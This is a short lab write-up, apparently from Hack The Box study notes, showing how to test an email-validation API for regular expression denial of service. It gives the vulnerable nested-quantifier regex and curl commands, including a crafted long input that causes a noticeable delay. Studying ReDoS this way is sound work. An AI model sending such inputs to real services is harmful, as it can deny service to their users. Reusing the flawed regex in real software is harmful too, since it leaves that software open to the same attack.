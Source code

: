 # Regular Expression Denial of Service (ReDoS)

Suppose we have a user that submits benign input to an API. On the server side, a developer could match any input against a regular expression.

#### Interact with the API

{% code overflow="wrap" %}
```bash
curl "http://<TARGET IP>:3000/api/check-email?email=test_value"
{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```
{% endcode %}



<figure><img src="../../.gitbook/assets/image (318).png" alt=""><figcaption><p>Credits HTB</p></figcaption></figure>

#### Submit a longer string

{% code overflow="wrap" %}
```bash
curl "http://<TARGET IP>:3000/api/check-email?email=tessssssssssssssssssssssssssssssttttttt@cdddddddddddddddddddddddddddddddddd.2222222222222222222222222222222222222222222222222222222222."
{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```
{% endcode %}

You'll notice a significante delay in the response. This proves the API is vulnerable to ReDoS attacks.

Reference links:

{% embed url="https://regex101.com/" %}

{% embed url="https://jex.im/regulex/#!flags=&re=%5E(%5Ba-zA-Z0-9_.-%5D)%2B%40((%5Ba-zA-Z0-9-%5D)%2B.)%2B(%5Ba-zA-Z0-9%5D%7B2%2C4%7D)%2B%24" %}
